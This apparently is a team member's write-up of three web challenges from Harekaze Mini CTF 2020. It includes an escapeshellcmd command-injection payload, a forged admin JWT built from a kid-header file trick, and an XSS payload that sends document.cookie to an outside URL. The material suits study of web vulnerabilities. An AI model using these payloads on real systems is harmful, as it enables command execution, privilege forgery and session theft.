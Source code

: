 ```yaml
---
layout: post
title: "Harekaze Mini CTF 2020 writeup"
date: 2019-08-12 15:00
categories: CTF 
---
```


1st placed at NekoLover(@shpik)

I attended to Harekaze Mini CTF 2020 with `JJY`, `rbtree`, `03sunf`, and we god a first place :). 
I wrote writeup on some of the challs I solved.

It was a really fun CTF after a long time ago.

## [Web] What time is it now?
### Description
It's about ...

### Solve
Here is source code:
```php
<?php
if (isset($_GET['source'])) {
  highlight_file(__FILE__);
  exit;
}

$format = isset($_REQUEST['format']) ? (string)$_REQUEST['format'] : '%H:%M:%S';
$result = shell_exec("date '+" . escapeshellcmd($format) . "' 2>&1");
?>
```

As you can see, this chall is command injection.
Basically, If `escapeshellcmd` is a pair of `'` or `"`, it is not escape.

https://www.php.net/manual/en/function.escapeshellcmd.php
> Following characters are preceded by a backslash: &#;`|*?~<>^()[]{}$\, \x0A and \xFF. ' and " are escaped only if they are not paired.

Payload: ' '-f/flag

FLAG: HarekazeCTF{1t's_7pm_1n_t0ky0}

## [Web] JWT is secure
### Description
I learned implementing a custom session function is prone to be insecure, so this time I adopted JWT (JSON Web Token).

### Solve
First, i checked how to get flag, and found below code in `page/admin.php`:
```php
<?php if ($session->get('role') === 'admin') { ?>
    We have confirmed you are an admin. The flag is: <b><?= FLAG ?></b>.
<?php } else { ?>
    You have no authority to access this page!
<?php } ?>
```
If i have session with admin role, can get flag.

Therefore i noticed session manage class and found vulnerability.
```php
  public function __construct($cookie_name='jwtsession', $dir='./keys') {
    $this->cookie_name = $cookie_name;
    $this->base_dir = $dir;

    if (array_key_exists($cookie_name, $_COOKIE)) {
      try {
        $tmp = new JWT($_COOKIE[$cookie_name]);
        $kid = $tmp->getHeader('kid'); // 1. set kid value
        $this->key = $this->getSecretKey($kid); 

        if (!$tmp->verify($this->key)) {
          throw new Exception('Signature verification failed');
        }

        $this->jwt = $tmp;
      } catch (Exception $e) {
        die('Error occurred: ' . $e->getMessage());
      }
    }
    // ... snip ...
  }

  private function getSecretKey($kid) {
    $dir = $this->base_dir . '/' . $kid[0] . '/' . $kid[1];
    $path = $dir . '/' . $kid;

    // no path traversal, no stream wrapper
    if (preg_match('/\.\.|\/\/|:/', $kid)) {
      throw new Exception('Hacking attempt detected');
    }

    if (!file_exists($path) || !is_file($path)) {
      throw new Exception('Secret key not found');
    }

    return file_get_contents($path); // 2. open kid value if passed some check logic.
  }
```
The kid value in JWT is setted as key.
And it has some filtering.
Due to insufficient filtering, we can bypass it.

See the dist files, we know .htaccess file in keys directory.
So i use that files, and get flag with admin role session i made.

```python
import jwt

key = open("keys/.htaccess").read()
print(jwt.encode({"username": "1","role":"admin"},key, algorithm="HS256", headers={"typ":"JWT","kid":"./.htaccess"}))
```

FLAG: HarekazeCTF{l1st3n_1_just_g1v3_y0u_my_fl4g_4t4sh1_n0_w4v3_w0_t0b4sh1t3_m1ruk4r4}

## [Web] WASM BF
### Description
Now it is the era of WebAssembly. To learn WebAssembly, I wrote a Brainf*ck interpreter in C and compiled to wasm.

### Solve
It's a WASM chall, but fortunately the source code was given! :happy:

How to work:
1. Input Brainfuck(bf) code (Web)
2. execute bf code inputed (WASM)
    - Filtering: if char has `<` or `>` values, then it changes to HTML Entity (WASM)
3. Print in web page (WASM -> Web)


Here is filtering code:
```c
void print_char(char c) {
  if (buffer_pointer + 4 >= buffer + BUFFER_SIZE) {
    flush();
  }

  // Prevent XSS!
  if (c == '<' || c == '>') {
    buffer_pointer[0] = '&';
    buffer_pointer[1] = c == '<' ? 'l' : 'g';
    buffer_pointer[2] = 't';
    buffer_pointer[3] = ';';
    buffer_pointer += 4;
  } else {
    *buffer_pointer = c;
    buffer_pointer++;
  }
}
```

I focused on the code below and confirmed that there was no inspection of the boundary.

This allows access to `buffer` from `memory`, which can cause XSS by bypassing the filtering above.
```cpp
unsigned char buffer[BUFFER_SIZE] = {0};
unsigned char *buffer_pointer = buffer;
unsigned char memory[MEMORY_SIZE] = {0};
char program[PROGRAM_MAX_SIZE] = {0};

int execute(int length) {
  for (int i = 0; i < length; i++) {
    program[i] = _get_char();
  }
  // ...snip...
  while (counter < length && executed < 100000) {
    char c = program[counter];

    switch (c) {
      // ...snip...
      case '>': {
        pointer++;
        break;
      }
      case '<': {
        pointer--;
        break;
      }
      // ...snip...
    }
    // ...snip...
  }
  // ...snip...
}
```
Finally, i found index for overwritting `buffer` and got flag.

```javascript
executeButton.addEventListener('click', async () => {
    //execute(edit.value);
    for(var i=10;i<0x200;i++){
      rr= "----[---->+<]>--.--[--->+<]>.++++.------.-[--->+<]>--.---[->++++<]>-.-.++++[->+++<]>+.[--->++<]>-----.-[->++<]>.[---->+<]>++.+++++[->+++<]>.-.---------.+++++++++++++..---.+++.[-->+<]>++++.>--[----->+<]>-.[--->+<]>-.[->+++<]>-.+++++++++++.[--->+<]>++++.----[->+++<]>.+++.------------.--.--[--->+<]>-.-----------.++++++.-.[----->++<]>++.[--->++<]>-.++++[->+++<]>.----.--[--->+<]>---.++++[->+++<]>+.+++++.---[->+++<]>-.[--->++<]>-.++.+[->+++<]>.[--->+<]>---.+.--.[--->+<]>++.+++++++++.--------..-[-->+++<]>+."
      t = rr + "<".repeat(i) + ".";
      if(t.length > 1000) break;
      ee = await execute(t);
      if(ee.substr(-1) == "="){
        console.log(i, t, ee );
        break;
      }
    
    }
  }, false);
```

Here is my final payload:
```
?location.href=`https://[url]/?${document.cookie}`#----[---->+<]>--.--[--->+<]>.++++.------.-[--->+<]>--.---[->++++<]>-.-.++++[->+++<]>+.[--->++<]>-----.-[->++<]>.[---->+<]>++.+++++[->+++<]>.-.---------.+++++++++++++..---.+++.[-->+<]>++++.>--[----->+<]>-.[--->+<]>-.[->+++<]>-.+++++++++++.[--->+<]>++++.----[->+++<]>.+++.------------.--.--[--->+<]>-.-----------.++++++.-.[----->++<]>++.[--->++<]>-.++++[->+++<]>.----.--[--->+<]>---.++++[->+++<]>+.+++++.---[->+++<]>-.[--->++<]>-.++.+[->+++<]>.[--->+<]>---.+.--.[--->+<]>++.+++++++++.--------..-[-->+++<]>+.<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<+<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<-
```

FLAG: HarekazeCTF{I_th1nk_w4sm_1s_e4s1er_t0_re4d_th4n_4smjs}

